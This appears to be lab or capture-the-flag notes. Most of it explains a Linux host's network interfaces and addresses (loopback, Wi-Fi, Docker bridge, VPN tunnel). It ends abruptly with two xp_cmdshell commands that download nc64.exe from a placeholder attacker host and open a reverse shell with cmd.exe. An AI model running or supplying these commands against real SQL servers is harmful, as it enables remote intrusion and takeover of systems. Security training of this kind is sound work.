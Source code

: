 
---
**lo (Loopback)**
- `inet 127.0.x.x/x`
  - **Purpose:** Localhost. Used for internal communication within your machine. Not accessible from outside.
- `inet6 ::1/128`
  - **Purpose:** IPv6 loopback. Same as above, but for IPv6.
---
**enp2s0 / eno1 (Ethernet interfaces)**
- No IP addresses assigned (interfaces are DOWN).
  - **Purpose:** Wired network interfaces, currently inactive.

---

**wlp3s0 (Wi-Fi interface)**
- `inet 10.0.0.186/24`
  - **Purpose:** Your main local (private) IPv4 address on the Wi-Fi network. Used for LAN communication.
- Multiple `inet6 .../64` and `/128`
  - **Purpose:** IPv6 addresses for your Wi-Fi interface. These include:
    - **Global temporary dynamic:** Used for outgoing connections, changes over time for privacy.
    - **Global dynamic:** Stable IPv6 address assigned by your network.
    - **Link-local:** Only valid on the local network segment.

---

**docker0 (Docker bridge)**
- `inet 172.17.0.1/16`
  - **Purpose:** Virtual network interface created by Docker. Used for communication between Docker containers and the host.

---

**tun0 (VPN tunnel)**
- `inet 10.10.16.6/23`
  - **Purpose:** IP address assigned to your VPN tunnel interface. Used for routing traffic through a VPN.
- `inet6 dead:beef:4::1004/64`
  - **Purpose:** Global IPv6 address for the VPN tunnel.
- `inet6 fe80::656b:5512:6131:14ab/64`
  - **Purpose:** Link-local IPv6 address for the VPN tunnel.

---

**Summary:**  
- `127.0.0.1` and `::1`: Localhost (internal only)
- `10.0.0.186`: Your Wi-Fi IPv4 address (LAN)
- `172.17.0.1`: Docker virtual network (for containers)
- `10.10.16.6`: VPN tunnel IPv4 address
- IPv6 addresses: Used for modern networking, privacy, and global reachability (depending on scope)

Then use xp_cmdshell to establish a reverse shell:
```sql
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://YOUR_IP_ADDRESS/nc64.exe -outfile nc64.exe"
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe YOUR_IP_ADDRESS 443"
```
